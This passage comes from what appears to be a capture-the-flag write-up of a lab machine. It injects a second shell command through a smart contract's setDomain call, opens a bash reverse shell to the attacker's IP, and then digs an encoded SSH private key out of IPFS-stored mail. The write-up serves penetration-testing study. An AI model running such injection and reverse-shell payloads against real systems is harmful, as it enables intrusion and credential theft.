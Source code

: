 Trying to inject code into this by appending another command:
```python
contract.functions.setDomain("10.10.14.9; ping -c 3 10.10.14.9").transact()
```

This pings three more times and proofs that we got command injection. Lets execute a reverse shell on the box:
```python
contract.functions.setDomain("10.10.14.9; bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'").transact()
```

After sending this command, the listener on my IP and port 9001 starts a reverse shell session as _administrator_.

## Privilege Escalation

There are _/home_ directories for _administrator_ and _bobby_, where the current user permissions are not sufficient to access it.
A Python script _"administrator/maintain/gen.py"_ creates SSH keys and the public keys are in the directory _maintain/pub_.
It has a comment that says:
```markdown
(...)
TODO: Distribute keys via ProtonMail
(...)
```

Which probably means that another way of sending the private keys is used.

The hidden _.ipfs_ directory of _administrator_ reveals that a service called [InterPlanetary File System (IPFS)](https://ipfs.io/) is installed, which is an open-source _"distributed system for storing and accessing files, websites, applications, and data"_.

Listing all documents:
```markdown
ipfs refs local
```

Cycle through all documents:
```markdown
for i in $(ipfs refs local); do ipfs ls $i 2>/dev/null; done
```

Now it shows the real names of the hash files and there are some _.eml_ mail files.
In _/etc/passwd_ there is only the user _bobby_ that can access a shell, so this is the correct target.
```markdown
ipfs cat QmViFN1CKxrg3ef1S8AJBZzQ2QS8xrcq3wHmyEfyXYjCMF
```

This shows the contents of the mail file as a _Base64-decoded_ string.
Copying the string to a file and decoding it:
```markdown
base64 -d bobby-key.b64.txt > bobby.key
```

We got the users private key, but it is encrypted:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,53D881F299BA8503
(...)
```
